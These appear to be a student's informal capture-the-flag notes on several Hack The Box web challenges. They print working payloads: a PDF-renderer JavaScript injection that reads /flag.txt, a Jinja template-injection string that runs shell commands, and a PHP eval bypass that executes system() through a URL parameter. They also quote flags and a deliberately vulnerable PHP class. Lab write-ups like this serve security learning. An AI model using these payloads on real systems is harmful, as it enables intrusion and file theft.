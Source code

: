 # blinker fluids htb


examining the code we can see in the docker file

```
# Add flag
COPY flag.txt /flag.txt
```
and we see a fake flag for testing as well.

while creating pdf we see

```
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 

```
https://heinandre.no/htb-cyber-apocalypse-2022/web/blinker-fluids/

first we look at the databases and imports.
we see any templating engine then we can try and inject.

while trying iframe injection I was able to inject an iframe but no flag text file still.


```
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt')}"; display: block }`,
}
---

```
HTB{int3rG4l4c7iC_r1d3_0n_bl1nk3r_flu1d5}

# templated htb

when we go to http://159.65.58.189:31882/

we can see that site is still under construction and uses jinja templates

so straight away template injection comes to mind.

but need to run dirbuster to get to any good sites.

https://ireadyoulearn.info/2021/06/19/server-side-template-injection-hack-the-box-walkthrough/

trying with /config

```
Error 404

The page '<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>' could not be found
```

```
{{''.__class__.__mro__[1].__subclasses__()[414]('cat%20flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

'HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}

# phonebook

after doing passwird bruteforcing it worked.

# gunship

while looking at the code I could see the line 

`pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })`

maybe if instead of 'guest we can put something else?

AST injection was the original hint in one of the comments in the machine

looking at AST injection

# sanitize

sql injection in 
HTB{SQL_1nj3ct1ng_my_w4y_0utta_h3r3}

# Lovetok

the time changes everytime hte page is refreshed

we see inside entrypoint.sh

`FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)
`
will give out random numbers

```
~/Downloads/web_lovetok ⌚ 13:03:55
$ cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1

Sz0Ir

```

The website handles all request path

function for time

```
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```

Eval is the vulnerability, however you see the addslashes. looking at the net for addslashes we found.

?format=${phpinfo()} if we add to the url it works

you can enumerate th edirectory by : http://206.189.20.127:31160/?format=${system($_GET[1])}&1=ls+/

th flag will be at : http://157.245.33.77:32397/?format=${system($_GET[1])}&1=cat+flagwGg4C

not getting flags anymore though
https://shakuganz.com/2021/06/23/hackthebox-lovetok-write-up/



